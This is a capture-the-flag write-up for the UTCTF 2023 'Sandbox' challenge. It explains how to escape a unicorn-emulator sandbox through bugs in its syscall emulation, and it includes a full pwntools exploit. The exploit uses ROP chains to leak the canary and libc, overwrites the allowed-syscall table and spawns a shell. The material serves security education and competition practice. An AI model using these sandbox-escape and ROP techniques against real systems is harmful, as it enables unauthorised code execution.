

## UTCTF Sandbox

was a pwn challenge from UTCTF 2023 edition.

it was a unicorn sandbox escape challenge.

we are given a `loader` binary statically linked with `libunicorn`, and a simple elf file `hello` which is suppose to be run with the sandbox, like this: `./loader hello`

------


1. #### first look

so let's have a look at `hello` binary reverse:



we can see that it is a very basic buffer overflow via `gets()` function.

let's check protections with `checksec`:


Ok, no `PIE`, no `canary`.

so `hello` binary will be easy to exploit, and easy to make it run the code we want.

ok so let's have a look to `main()` function of `loader` binary, our sandbox:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  size_t v4; // rax
  size_t v5; // rax
  _QWORD *v6; // rax
  int i; // [rsp+1Ch] [rbp-E4h]
  unsigned int v9; // [rsp+20h] [rbp-E0h]
  __int64 v10; // [rsp+28h] [rbp-D8h] BYREF
  __int64 v11; // [rsp+30h] [rbp-D0h] BYREF
  __int64 v12; // [rsp+38h] [rbp-C8h] BYREF
  char v13; // [rsp+40h] [rbp-C0h] BYREF
  __int64 v14; // [rsp+48h] [rbp-B8h] BYREF
  const char *v15; // [rsp+50h] [rbp-B0h]
  unsigned __int64 v16; // [rsp+58h] [rbp-A8h]
  char v17[32]; // [rsp+60h] [rbp-A0h] BYREF
  char v18[48]; // [rsp+80h] [rbp-80h] BYREF
  char v19[56]; // [rsp+B0h] [rbp-50h] BYREF
  unsigned __int64 v20; // [rsp+E8h] [rbp-18h]

  v20 = __readfsqword(0x28u);
  if ( argc <= 1 )
    usage((char **)argv);
  v15 = argv[1];
  std::map<std::string,section>::map(v18, argv, envp);
  std::map<int,segment>::map(v19);
  v9 = parse_elf(v15, &v10, (__int64)v18, (__int64)v19);
  if ( v9 )
  {
    if ( v9 == 1 )
      perror("file not exists.");
    if ( v9 == 2 )
      fwrite("this is not elf.", 1uLL, 0x10uLL, stdout);
  }
  if ( (unsigned int)uc_open(4LL, 8LL, &v11) )
  {
    printf("Failed on uc_open() with error returned: %u\n", v9);
    v3 = -1;
  }
  else
  {
    loader(v15, v11, &v10, v19, v18);
    v12 = 0x7FFC00LL;
    uc_reg_write(v11, 44LL, &v12);
    v16 = argc - 1;
    std::vector<unsigned long>::vector(v17);
    if ( argc > 2 )
    {
      v4 = strlen(argv[2]);
      v14 = push_argv(v11, argv[2], v4);
      std::vector<unsigned long>::push_back(v17, &v14);
    }
    v5 = strlen(argv[1]);
    v14 = push_argv(v11, argv[1], v5);
    std::vector<unsigned long>::push_back(v17, &v14);
    if ( v16 == 1 )
      push_stack(v11, 0LL);
    for ( i = 0; v16 > i; ++i )
    {
      v6 = (_QWORD *)std::vector<unsigned long>::operator[](v17, i);
      push_stack(v11, *v6);
    }
    push_stack(v11, v16);
    uc_reg_read(v11, UC_X86_REG_RSP, &v12);
    uc_reg_write(v11, UC_X86_REG_RBP, &v12);
    uc_hook_add(v11, (unsigned int)&v13, 48, (unsigned int)hook_mem_invalid, 0, 1, 0LL);
    uc_hook_add(v11, (unsigned int)&v14, 2, (unsigned int)hook_syscall, 0, 1, 0LL);
    uc_emu_start(v11, v10, -1LL, 0LL, 0LL);
    uc_close(v11);
    v3 = 0;
    std::vector<unsigned long>::~vector(v17);
  }
  std::map<int,segment>::~map(v19);
  std::map<std::string,section>::~map(v18);
  return v3;
}
```

Well a bit longer, but not too complicated.

basically it loads the elf file given as argument in command line,

initialize stack register `rsp` and frame register `rbp`,

add two hooks:

- one for invalid memory access `hook_mem_invalid`

+ one for syscalls emulation `hook_syscall`

then it launch emulation, and exits when finish.

------


2. #### Examining the sandbox `loader`

let's check protections of `loader`with `checksec`:


Ok all protections are on.

We want to escape from sandbox, so we must find vulnerabilities in `loader` that can be exploited from `hello` vulnerable program.

the vulnerable program can interact with sandbox via syscalls, so logically , vulnerabilities must be in syscalls emulation,

so let's have a look to `hook_syscall` function:

```c
unsigned __int64 __fastcall hook_syscall(__int64 a1, __int64 a2)
{
  size_t v2; // rax
  void *v3; // rsp
  size_t v4; // rax
  void *v5; // rsp
  __int64 v7[5]; // [rsp+8h] [rbp-170h] BYREF
  __int64 v8; // [rsp+30h] [rbp-148h]
  char v9; // [rsp+3Fh] [rbp-139h]
  int j; // [rsp+40h] [rbp-138h]
  int i; // [rsp+44h] [rbp-134h]
  __int64 sysno; // [rsp+48h] [rbp-130h] BYREF
  __int64 fd; // [rsp+50h] [rbp-128h] BYREF
  __int64 v14; // [rsp+58h] [rbp-120h] BYREF
  size_t nbytes; // [rsp+60h] [rbp-118h] BYREF
  ssize_t v16; // [rsp+68h] [rbp-110h] BYREF
  int v17[2]; // [rsp+70h] [rbp-108h]
  int count[2]; // [rsp+78h] [rbp-100h]
  size_t v19; // [rsp+80h] [rbp-F8h]
  struct iovec *iovec; // [rsp+88h] [rbp-F0h]
  unsigned __int64 iov_len; // [rsp+90h] [rbp-E8h]
  void *v22; // [rsp+98h] [rbp-E0h]
  size_t v23; // [rsp+A0h] [rbp-D8h]
  void *buf; // [rsp+A8h] [rbp-D0h]
  __int64 v25; // [rsp+B0h] [rbp-C8h]
  char s[136]; // [rsp+B8h] [rbp-C0h] BYREF
  uint64_t canary; // [rsp+140h] [rbp-38h]

  v8 = a1;
  v7[4] = a2;
  canary = __readfsqword(0x28u);
  ++syscall_cnt;
  memset(s, 0, 0x80uLL);
  uc_reg_read(a1, UC_X86_REG_RAX, &sysno);
  uc_reg_read(a1, UC_X86_REG_RDI, &fd);
  uc_reg_read(a1, UC_X86_REG_RSI, &v14);
  uc_reg_read(a1, UC_X86_REG_RDX, &nbytes);
  if ( sysno == 1024 )			// this new syscall is a given write primitive basically
  {
    v25 = fd - 0x7F0000;
    *(_DWORD *)&stack[fd - 0x7F0000] = syscall_cnt;		// we can write syscall_cnt value at fd-0x7f0000
  }
  else if ( sysno )
  {
    switch ( sysno )
    {
      case 1LL:
        uc_mem_read(v8, v14, (__int64)s, nbytes);
        printf("\x1B[33m>>> syscall write\x1B[0m(fd=%d, *buf='%s', count=%d)\n", fd, s, nbytes);
        uc_reg_write(v8, 35LL, &nbytes);
        break;
      case 20LL:
        *(_QWORD *)v17 = fd;
        *(_QWORD *)count = nbytes;
        v19 = nbytes - 1;
        v4 = 16 * ((16 * nbytes + 15) / 0x10);
        while ( v7 != (__int64 *)((char *)v7 - (v4 & 0xFFFFFFFFFFFFF000LL)) )
          ;
        v5 = alloca(v4 & 0xFFF);
        if ( (v4 & 0xFFF) != 0 )
          *(__int64 *)((char *)&v7[-1] + (v4 & 0xFFF)) = *(__int64 *)((char *)&v7[-1] + (v4 & 0xFFF));
        iovec = (struct iovec *)v7;
        uc_mem_read(v8, v14, (__int64)v7, 16LL * *(_QWORD *)count);
        for ( i = 0; *(_QWORD *)count > (unsigned __int64)i; ++i )
        {
          iov_len = iovec[i].iov_len;
          v22 = (void *)operator new[](iov_len);
          uc_mem_read(v8, (__int64)iovec[i].iov_base, (__int64)v22, iov_len);
          iovec[i].iov_base = v22;
        }
        v16 = writev(v17[0], iovec, count[0]);
        uc_reg_write(v8, 35LL, &v16);
        break;
      case 158LL:
      case 218LL:
      case 16LL:
        v16 = 0LL;
        uc_reg_write(v8, 35LL, &v16);
        break;
      default:
        v9 = 0;
        for ( j = 0; (unsigned __int64)j <= 1; ++j )
        {
          if ( exit_syscalls[j] == sysno )
            syscall(sysno, fd, v14, nbytes);
        }
        printf(">>> enumation stoped because of invalid syscall %d\n", sysno);
        uc_emu_stop(v8);
        break;
    }
  }
  else  
  {
      // if syscall number is 0, this is the read syscall, and will be emulated here
    v23 = nbytes - 1;
    v7[2] = nbytes;
    v7[3] = 0LL;
    v7[0] = nbytes;
    v7[1] = 0LL;
    v2 = 16 * ((nbytes + 15) / 0x10);
    while ( v7 != (__int64 *)((char *)v7 - (v2 & 0xFFFFFFFFFFFFF000LL)) )
      ;
    v3 = alloca(v2 & 0xFFF);
    if ( (v2 & 0xFFF) != 0 )
      *(__int64 *)((char *)&v7[-1] + (v2 & 0xFFF)) = *(__int64 *)((char *)&v7[-1] + (v2 & 0xFFF));
    buf = v7;
    v16 = read(fd, v7, nbytes);		// we can interrupt this read before requested nbytes
    uc_reg_write(v8,UC_X86_REG_RAX , &v16);	// rax will contains bytes really read
    uc_mem_write(v8, v14, buf, nbytes);		// but, write back to host memory requested nbytes size
  }
  return __readfsqword(0x28u) ^ canary;
}
```

ok first we see that the challenge author give us a limited write primitive

```c
if ( sysno == 1024 )			// this new syscall is a given write primitive basically
  {
    v25 = fd - 0x7F0000;
    *(_DWORD *)&stack[fd - 0x7F0000] = syscall_cnt;		// we can write syscall_cnt value at fd-0x7f0000
  }
```

as we control `fd` value which is copied from the `rdi` register value,  with this syscall number 1024, we can write `syscall_cnt` value where we want, relatively to `stack` array that is on `.bss`

`syscall_cnt` is basically the number of syscalls executed, it is incremented after each syscall.

So it's a limited write primitive, but it will be enough.


##### 2.1 first vulnerability in `read` syscall

there is a vulnerability in  `read` syscall emulation, that we will use to leak sandbox `loader` stack values, to guest `hello` program

if you look at read syscall reverse:

```c
buf = v7;
v16 = read(fd, v7, nbytes);		// we can interrupt this read before requested nbytes
uc_reg_write(v8,UC_X86_REG_RAX , &v16);	// rax will contains bytes really read
uc_mem_write(v8, v14, buf, nbytes);		// but, write back to host memory requested nbytes size
```

you can see that program after having allocated a `nbytes` sized memory buffer on stack with `alloca()` (which does not zero memory),  it tries to read nbytes in it.

Then it writes the total of bytes returned by `read()` function in `rax` register.

then it write back in emulated guest memory `nbytes`  size of data from our buffer on stack.

But ! if we send less data than `nbytes` to `read()` function,  it still writes `nbytes` byte back to guest memory.

Let's say for example we call syscall read (from guest) with 0x600 bytes in `nbytes`, and we send only 0x80 bytes to `read()`,

0x600 bytes will be written back to guest memory, so 0x80 of our sended data, and 0x580 more data coming from sandbox stack.

so, With that vulnerability we can leak stack data from host sandbox `loader`to guest vulnerable `hello` progam running our ROP.


##### 2.2 second vulnerability/functionnality in default syscall handling:

other syscalls number are handled by default case switch

```c
      default:
        v9 = 0;
        for ( j = 0; (unsigned __int64)j <= 1; ++j )
        {
          if ( exit_syscalls[j] == sysno )
            syscall(sysno, fd, v14, nbytes);
        }
        printf(">>> enumation stoped because of invalid syscall %d\n", sysno);
        uc_emu_stop(v8);
        break;
```

we can see that it checks is syscall number is included in `exit_syscalls[2]` table, which contains only two entries


these two entries are **0x3c** which is `exit` syscall,  and **0xe7** which is `exit_group` syscall.

If the syscall is one of these two syscalls, it is executed via:

`syscall(sysno, fd, v14, nbytes);`

passing to the syscall the registers `rdi`, `rsi`, `rdx`, which were stored before in `fd`,`v14`,`nbytes` local vars on stack.

and if syscall number is not in the `exit_syscalls[2]` table, emulation will stop, it will print a "...invalid.." message, and exits too.

one **important** things to note, is that `exit_syscalls[2]` table is in a read/write area in memory, so we can modify it..

now we have everything needed to exploit the `loader`


##### 2.3 third vulnerability, in `write` syscall emulation

this one is obvious , look:

```c
      case 1LL:
        uc_mem_read(v8, v14, (__int64)s, nbytes);
        printf("\x1B[33m>>> syscall write\x1B[0m(fd=%d, *buf='%s', count=%d)\n", fd, s, nbytes);
        uc_reg_write(v8, 35LL, &nbytes);
        break;
```

`s` buffer where data to be written is read from guest, is defined as this:

`char s[136];`

and as you can see, no check is made on `nbytes`  value, so we have a basic buffer overflow from data coming from guest,

we would need to leak `canary` first and prog address to used it..

but we we will not use this vulnerability finally.  

via the `printf` we can leak value coming from guest, we will use that for getting our leak coming from `read` stack leak..

------


#### 4. The "master" plan

well with our limited write primitive (the given 1024 syscall), we could for example, do enough syscalls to increase  `syscall_cnt` to the value of `execve` syscall , which is 59,  and overwrite `exit_syscalls[0]` entry with 59.

Like this we will be able to execute the syscall we want...


So what's the plan ????

1.  Use our leak in `read` syscall emulation to leak sandbox stack data, to our ROP running in guest.
2. Use syscall `write`, to leak sandbox canary , prog address, and libc address that we could need. (in fact we use only libc leak)

3. call another time `gets` function in our ROP on guest, to pivot on .bss and send a second ROP (now that we know libc base)
4. send a second ROP to guest, that will increase syscalls numbers,  `syscall_cnt` and use syscall 1024 to write it in `exit_syscalls[]`table
5. execute an `execve('/bin/sh', 0, 0)` from our ROP guest, that will be finally really execute in sandbox by default case, and will give us a shell..

one thing to note, is that the execve address of '/bin/sh' must be an address in sandbox address space, not in guest address space, as in the final, the execve syscall will be executed by sandbox `loader` in the default case of `hook_syscall`

so we will use address of "/bin/sh" string in sandbox libc, calculated from the sandbox stack leaks that our guest received..


well that's a bit complicated indeed :)

but as always , you can still read the code.. *code speaks by itself* 

**some says..seeing is believing..**


the exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("loader_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)


host, port = "puffer.utctf.live", "7132"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path,'hello'])

# gadgets in hello binary
pop_rax = 0x0000000000401001 # pop rax; ret;
pop_rdi = 0x00000000040013af # pop rdi; ret;
pop_rdx = 0x00000000040023b3 # pop rdx; ret;
pop_rsi = 0x00000000040013ad # pop rsi; pop r15; ret;
pop_rsp = 0x00000000040025f9 # pop rsp; ret;
syscall = 0x00000000040024ab # syscall; ret;

# first ROP, will be executed in guest
payload = 'A'*0x100+p64(0xdeadbeef)
payload += p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(0x0000000004004000)+p64(0)+p64(pop_rdx)+p64(0x600)+p64(syscall)	# syscall read, will leak host memory & copy it to guest memory
payload += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x0000000004004079)+p64(0)+p64(pop_rdx)+p64(8)+p64(syscall)	# syscall write to leak canary
payload += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x0000000004004088)+p64(0)+p64(pop_rdx)+p64(8)+p64(syscall)	# syscall write to leak prog address
payload += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x0000000004004308)+p64(0)+p64(pop_rdx)+p64(8)+p64(syscall)	# syscall write to leak a libc address
payload += p64(pop_rdi)+p64(0x0000000004004000)+p64(0x40003da)			# call gets again to read next ROP on .bss
payload += p64(pop_rsp)+p64(0x0000000004004000)					# pivot on next ROP
sla('name: \n', payload)

p.recvuntil('\n',drop=True)

# cut syscall read, to make the program leak host stack memory, and copy it to guest memory
p.send('B'*0x78)
# receive out various leaks for write syscalls
# canary
p.recvuntil('buf=\'', drop=True)
canary = u64(b'\x00'+p.recv(7))
logleak('canary', canary)
stack = u64(p.recvuntil('\'', drop=True).ljust(8,b'\x00'))
logleak('stack', stack)
# calculate progbase
p.recvuntil('buf=\'', drop=True)
exe.address = u64(p.recvuntil('\'', drop=True).ljust(8,b'\x00')) - 0xa57504
logleak('prog base', exe.address)
# libc address
p.recvuntil('buf=\'', drop=True)
libc.address = u64(p.recvuntil('\'', drop=True).ljust(8,b'\x00'))-0x9a154 # offset from 2.31-0ubuntu9.8_amd64
logbase()

# second ROP (on guest)
payload2 = (p64(pop_rax)+p64(16)+p64(syscall))*46		# advance syscall_cnt number (up to 59)
payload2 += p64(pop_rdi)+p64(0x775670)+p64(pop_rax)+p64(1024)+p64(syscall)	# overwrite exit_syscalls[0] with 59 to authorize execve
# the '/bin/sh' string address is from host memory, as the execve will be executed by the host
payload2 += p64(pop_rax)+p64(59)+p64(pop_rdi)+p64(next(libc.search('/bin/sh')))+p64(pop_rdx)+p64(0)+p64(pop_rsi)+p64(0)*2+p64(syscall)		# execve(/bin/sh,0,0)
sl(payload2)

#enjoy shell
sleep(1)
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still pwning ..blinking little chars on terminal...*